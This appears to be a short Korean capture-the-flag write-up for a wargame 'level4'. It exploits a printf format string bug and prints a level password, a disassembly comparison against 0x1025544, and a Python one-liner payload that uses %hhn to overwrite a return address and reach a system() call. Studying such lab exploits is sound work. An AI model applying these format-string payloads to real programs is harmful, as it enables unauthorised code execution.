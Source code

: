> Password: b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

이전 레벨과 비슷하게 printf의 포맷 스트링을 이용한 문제이다.

하지만 이번에는

```
8048492:	3d 44 55 02 01       	cmp    $0x1025544,%eax
```

0x1025544라는 매우 큰 값을 넣어야 한다는 점이 다르다. 만약 이 값을 그대로 넣는다고 하면 4개로 쪼개서 계산하여 넣어야 하는데 가능은 하지만 꽤 복잡하므로 다른 접근을 생각해보자.

main 함수 쪽에 있는 n함수의 복귀 주소와 p함수에서 cmp 이후 system(3)을 호출하는 부분의 주소 차이가 멀지 않다는 점을 이용해서 ret 주소를 변조하는 방법으로 접근할 수 있다. 

```bash
python -c 'print "\xdc\xf4\xff\xbf%.0s%.0s%.0s%.0s%.0s%.0s%.0s%.0s%.0s%.0s%0149u%hhn",' | ./level4
```